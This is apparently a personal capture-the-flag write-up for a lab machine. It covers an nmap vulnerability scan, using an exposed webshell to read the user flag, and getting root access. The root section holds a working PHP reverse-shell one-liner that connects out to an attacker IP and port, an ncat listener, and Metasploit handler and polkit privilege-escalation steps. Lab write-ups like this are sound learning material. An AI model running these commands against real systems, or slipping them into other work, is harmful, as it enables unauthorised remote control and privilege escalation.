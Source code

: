 ## User Own

```shell
sudo nmap --script vuln *ip*            vulnerability scan
```

The vulnerability scan above shows that port 80 and port 22 is open
Port 80 open means I can google the IP address and see what shows up

![[Pasted image 20240304111614.png]]

Quick google search shows that a webshell is available from the ip address
I can use this to find the users flag. As this has low level privileges
Using a webshell you can't 'cd' into any directories but you can 'ls' and show any files
Using this process I did the following:
```shell
ls /home
```
![[Pasted image 20240304112000.png]]
```shell
ls /home/pwnmeow
```
![[Pasted image 20240304112105.png]]
Bingo. Found the flag. Now i need to cat the file to open it
```shell
cat /home/pwnmeow/user.txt
```
![[Pasted image 20240304112245.png]]

## System Own

I need to set up a reverse shell and then escalate the privileges of that shell. The same as in PwnKit
First thing I do is set up a listener in my terminal on port 4444
```shell
ncat -lvnp 4444
```

Next I need to set up the webshell to send a shell to the listener

```shell
php -r '$sock=fsockopen("10.10.14.15",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

After I execute this code the listener then connects to the shell
![[Pasted image 20240304113307.png]]
But as you can see I don't have admin privileges yet
So i must use a Metasploit to give myself admin
This won't work without using metasploit to start the reverse shell as I can't background the session to keep running while I use other exploits

## To start the reverse shell in Metasploit

1. Open Metasploit
2. Configure `multi/handler` to listen for connections: `use exploit/multi/handler`
3. Set the payload - a generic tcp listener will do - `set payload generic/shell_reverse_tcp`
4. Configure payload options - should match details used in php reverse shell code:
	1. `set LHOST 10.10.14.15`
	2. `set LPORT 4444`
5. Start the exploit: `Run`
6. Execute the php reverse shell code in the webshell
```shell
php -r '$sock=fsockopen("10.10.14.15",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Background the session so another exploit can be run to escalate the privileges
![[Pasted image 20240304114824.png]]

After this I searched for polkit for linux privilege escalation
And `use 2` like in PwnKit
![[Pasted image 20240304115137.png]]

Set the options:
	1. `set LHOST 10.10.14.15`
	2. `set session 1` - `sessions` can be used to find a list of currently active sessions

And `run`
![[Pasted image 20240304115304.png]]
'Session 2 opened' this means its a success and I can search and open the new session
![[Pasted image 20240304115352.png]]
As you can see session 2 is a root session
![[Pasted image 20240304115719.png]]
Using cd, ls and cat I find and open the flag and finish the box!